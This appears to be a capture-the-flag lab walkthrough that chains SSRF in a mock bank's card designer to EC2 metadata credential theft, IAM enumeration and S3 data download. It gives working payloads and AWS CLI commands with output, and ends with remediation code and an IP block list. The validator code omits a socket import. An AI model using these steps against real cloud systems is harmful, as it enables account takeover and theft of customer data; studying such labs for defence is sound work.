






# Walkthrough

## Step 1: Reconnaissance

Access the web application URL provided after deployment.

```bash
# Get the URL from Terraform output
cd terraform
terraform output web_app_url
```

Open the URL in your browser to see the **Beaver Dam Bank - Custom Card Designer**.



Key observations:
- Custom card design feature allowing customers to personalize credit cards
- Image URL input field for custom card images
- "Beta Feature - Internal Testing Only" warning suggests this is an internal tool
- Professional banking UI with navigation menu

## Step 2: Normal Functionality Test

Test the normal card preview functionality.

### Method 1: Using Browser

1. Enter a valid image URL (e.g., `https://picsum.photos/200`)
2. Click "Preview My Card" button
3. The image appears on the card preview



### Method 2: Using CLI

```bash
curl -s -X POST "http://<EC2_PUBLIC_IP>/" \
  -d "image_url=https://picsum.photos/200"
```

The application fetches the image and displays it on the card preview.

---

## Step 3: SSRF Vulnerability Discovery

Test if the application can access internal resources via Server-Side Request Forgery (SSRF).

### 3.1 Test IMDS Access

EC2 instances have a metadata service at `169.254.169.254`. Enter this URL in the Image URL field:

```
http://169.254.169.254/
```



The error message reveals: "The URL did not return a valid image" followed by the **Server Response** containing IMDS version list. SSRF vulnerability confirmed!

### 3.2 Explore Metadata Structure

```
http://169.254.169.254/latest/meta-data/
```



**Key Discovery**: The response shows `iam/` directory, indicating an IAM role is attached to this EC2 instance.

---

## Step 4: IAM Role Credential Extraction

### 4.1 Get IAM Role Name

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```



The role name `gnawlab-metapivot-role-xxxxxxxx` is exposed in the error message.

### 4.2 Extract Temporary Credentials

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/gnawlab-metapivot-role-xxxxxxxx
```



**Critical Data Extracted** from the error message:
```json
{
  "Code": "Success",
  "AccessKeyId": "ASIAXXXXXXXXXXX",
  "SecretAccessKey": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
  "Token": "xxxxxxxx...very long session token...xxxxxxxx",
  "Expiration": "2026-05-01T06:00:00Z"
}
```

---

## Step 5: AWS CLI Configuration

Configure AWS CLI with the stolen credentials:

```bash
export AWS_ACCESS_KEY_ID="ASIAXXXXXXXXXXX"
export AWS_SECRET_ACCESS_KEY="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
export AWS_SESSION_TOKEN="xxxxxxxx...very long session token...xxxxxxxx"
export AWS_DEFAULT_REGION="us-east-1"
```

Or configure a named profile:

```bash
aws configure set aws_access_key_id ASIAXXXXXXXXXXX --profile stolen
aws configure set aws_secret_access_key xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx --profile stolen
aws configure set aws_session_token "xxxxxxxx...very long session token...xxxxxxxx" --profile stolen
aws configure set region us-east-1 --profile stolen
```

---

## Step 6: Identity Verification

Verify the stolen credentials work:

```bash
aws sts get-caller-identity
```

Output:
```json
{
    "UserId": "AROAYLHCQFX5YD3UECYUI:i-0dd0b83924907fd88",
    "Account": "573853150715",
    "Arn": "arn:aws:sts::573853150715:assumed-role/gnawlab-metapivot-role-aaq0ljoj/i-0dd0b83924907fd88"
}
```

**Key Information:**
- This is an assumed role (EC2 instance role)
- Extract the role name from the ARN: `gnawlab-metapivot-role-aaq0ljoj`

---

## Step 7: IAM Permission Enumeration

### 7.1 List Role Inline Policies

```bash
ROLE_NAME="gnawlab-metapivot-role-aaq0ljoj"

aws iam list-role-policies --role-name $ROLE_NAME
```

Output:
```json
{
    "PolicyNames": [
        "gnawlab-metapivot-policy-aaq0ljoj"
    ]
}
```

### 7.2 Get Policy Details

```bash
aws iam get-role-policy \
  --role-name $ROLE_NAME \
  --policy-name gnawlab-metapivot-policy-aaq0ljoj
```

Output:
```json
{
    "RoleName": "gnawlab-metapivot-role-aaq0ljoj",
    "PolicyName": "gnawlab-metapivot-policy-aaq0ljoj",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Sid": "IdentityVerification",
                "Effect": "Allow",
                "Action": ["sts:GetCallerIdentity"],
                "Resource": "*"
            },
            {
                "Sid": "IAMEnumeration",
                "Effect": "Allow",
                "Action": [
                    "iam:GetRole",
                    "iam:ListRolePolicies",
                    "iam:ListAttachedRolePolicies",
                    "iam:GetRolePolicy"
                ],
                "Resource": "arn:aws:iam::573853150715:role/gnawlab-metapivot-role-aaq0ljoj"
            },
            {
                "Sid": "S3BucketEnumeration",
                "Effect": "Allow",
                "Action": ["s3:ListAllMyBuckets"],
                "Resource": "*"
            },
            {
                "Sid": "S3DataAccess",
                "Effect": "Allow",
                "Action": ["s3:ListBucket", "s3:GetObject"],
                "Resource": [
                    "arn:aws:s3:::gnawlab-metapivot-data-aaq0ljoj",
                    "arn:aws:s3:::gnawlab-metapivot-data-aaq0ljoj/*"
                ]
            }
        ]
    }
}
```

**Permission Analysis:**
| Statement | Permissions | Description |
|-----------|-------------|-------------|
| IdentityVerification | `sts:GetCallerIdentity` | Identity verification |
| IAMEnumeration | `iam:*` related | Self-enumeration only |
| S3BucketEnumeration | `s3:ListAllMyBuckets` | List all buckets |
| S3DataAccess | `s3:ListBucket`, `s3:GetObject` | Access specific bucket |

**Key Finding**: The policy reveals access to bucket `gnawlab-metapivot-data-aaq0ljoj`.

### 7.3 List Attached Policies

```bash
aws iam list-attached-role-policies --role-name $ROLE_NAME
```

Output:
```json
{
    "AttachedPolicies": []
}
```

No managed policies attached. All permissions come from the inline policy.

---

## Step 8: S3 Bucket Enumeration

### 8.1 List All Buckets

```bash
aws s3 ls
```

Output:
```
2026-03-26 00:48:05 aria-export-0715-igppevfo
2025-12-28 05:48:34 beaverdam-homepage
2026-03-26 00:51:13 cf-templates-1cncwitnvx5u7-ap-northeast-2
2025-04-06 14:30:55 elasticbeanstalk-us-east-1-573853150715
2026-05-01 06:46:26 gnawlab-metapivot-data-aaq0ljoj
```

Target bucket identified: `gnawlab-metapivot-data-aaq0ljoj`

### 8.2 List Bucket Contents

```bash
aws s3 ls s3://gnawlab-metapivot-data-aaq0ljoj/ --recursive
```

Output:
```
2026-05-01 06:46:30        313 README.txt
2026-05-01 06:46:30         35 confidential/flag.txt
2026-05-01 06:46:30        298 data/customers.csv
2026-05-01 06:46:30        438 internal/security-memo.txt
```

**Discovered Files:**
| Path | Size | Description |
|------|------|-------------|
| `README.txt` | 313 bytes | Bucket documentation |
| `confidential/flag.txt` | 35 bytes | **FLAG file** |
| `data/customers.csv` | 298 bytes | Customer data |
| `internal/security-memo.txt` | 438 bytes | Internal memo |

---

## Step 9: Data Exfiltration

### 9.1 Read Customer Data

```bash
aws s3 cp s3://gnawlab-metapivot-data-xxxxxxxx/data/customers.csv -
```

Output:
```csv
id,name,email,account_number,balance
1,Alice Johnson,alice.j@beaverdambank.com,1001-2345-6789,125000.00
2,Bob Martinez,bob.m@beaverdambank.com,1001-3456-7890,89500.50
3,Carol Williams,carol.w@beaverdambank.com,1001-4567-8901,250000.00
4,David Chen,david.c@beaverdambank.com,1001-5678-9012,45000.75
```

**Sensitive Data Found**: Bank account numbers and balances exposed.

### 9.2 Read Security Memo

```bash
aws s3 cp s3://gnawlab-metapivot-data-xxxxxxxx/internal/security-memo.txt -
```

Output:
```
INTERNAL MEMO - Beaver Dam Bank
Date: 2024-02-20
Subject: IMDS Security Configuration

Team,

Following the Capital One incident, we need to review our EC2 configurations:

1. All new EC2 instances should use IMDSv2 (HttpTokens=required)
2. Legacy applications need migration plan by Q3
3. URL fetch features must validate destination addresses

Current status: Several legacy apps still use IMDSv1.
Priority: HIGH

- Cloud Security Team
```

**Irony**: The security memo describes exactly the vulnerability being exploited.

---

## Step 10: Flag Extraction

```bash
aws s3 cp s3://gnawlab-metapivot-data-xxxxxxxx/confidential/flag.txt -
```

Output:
```
FLAG{ssrf_to_imds_credential_theft}
```

---

## Attack Chain Summary

```
1. Web Application (Beaver Dam Bank Custom Card Designer)
   ↓ SSRF via URL fetch feature
2. EC2 Instance Metadata Service (169.254.169.254)
   ↓ Access /latest/meta-data/iam/security-credentials/
3. IAM Role Name Discovery
   ↓ Role name exposed in IMDS response
4. Temporary Credentials Extraction
   ↓ AccessKeyId, SecretAccessKey, Token
5. AWS CLI Configuration
   ↓ Export as environment variables
6. sts:GetCallerIdentity
   ↓ Confirm assumed role identity
7. iam:ListRolePolicies
   ↓ Discover inline policy name
8. iam:GetRolePolicy
   ↓ Analyze policy - find S3 access permissions
9. iam:ListAttachedRolePolicies
   ↓ Confirm no managed policies attached
10. s3:ListAllMyBuckets
    ↓ Discover target bucket
11. s3:ListBucket
    ↓ Enumerate bucket contents
12. s3:GetObject
    ↓
13. FLAG{ssrf_to_imds_credential_theft}
```

---

## Key Techniques

### SSRF to Cloud Metadata

```bash
# Classic SSRF payload for EC2 IMDS
http://169.254.169.254/latest/meta-data/

# Get IAM role credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```

### EC2 IMDS vs ECS Metadata

| | EC2 IMDSv1 | EC2 IMDSv2 | ECS Task Metadata |
|---|---|---|---|
| Endpoint | 169.254.169.254 | 169.254.169.254 | 169.254.170.2 |
| Token Required | **None** | PUT request | **None** |
| SSRF Protection | **No protection** | Token blocks SSRF | **No protection** |
| Credential Path | /latest/meta-data/iam/... | Same (with token) | $AWS_CONTAINER_CREDENTIALS_RELATIVE_URI |

---

## Lessons Learned

### 1. URL Validation
- Never allow user-controlled URLs to access internal networks
- Block requests to link-local addresses (169.254.x.x)
- Block requests to private IP ranges (10.x.x.x, 172.16.x.x, 192.168.x.x)
- Use allowlists for permitted domains/protocols

### 2. IMDSv2 Enforcement
- Set `HttpTokens=required` on all EC2 instances
- IMDSv2 requires a PUT request to obtain a token first
- Most SSRF vulnerabilities only allow GET requests, blocking exploitation

### 3. Least Privilege for EC2 Roles
- Grant only the minimum permissions required
- Use resource-level restrictions where possible
- Avoid wildcard (`*`) in Resource fields

### 4. Network Segmentation
- Use VPC endpoints for AWS service access
- Restrict outbound traffic from web servers
- Consider using AWS PrivateLink

---

## Remediation

### Secure URL Fetch Implementation

```python
import ipaddress
from urllib.parse import urlparse

BLOCKED_NETWORKS = [
    ipaddress.ip_network('169.254.0.0/16'),  # Link-local
    ipaddress.ip_network('10.0.0.0/8'),       # Private
    ipaddress.ip_network('172.16.0.0/12'),    # Private
    ipaddress.ip_network('192.168.0.0/16'),   # Private
    ipaddress.ip_network('127.0.0.0/8'),      # Loopback
]

def is_safe_url(url):
    parsed = urlparse(url)
    
    # Only allow http/https
    if parsed.scheme not in ('http', 'https'):
        return False
    
    # Resolve hostname and check IP
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(parsed.hostname))
        for network in BLOCKED_NETWORKS:
            if ip in network:
                return False
    except:
        return False
    
    return True
```

### IMDSv2 Terraform Configuration

```hcl
resource "aws_instance" "secure" {
  # ... other config ...

  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "required"  # Enforce IMDSv2
    http_put_response_hop_limit = 1
  }
}
```

### Additional Security Measures

1. **AWS WAF Rules**: Block requests containing `169.254` in URL parameters
2. **CloudTrail Monitoring**: Alert on unusual API patterns from EC2 instances
3. **GuardDuty**: Enable for anomalous credential usage detection
4. **VPC Flow Logs**: Monitor for unexpected metadata service access
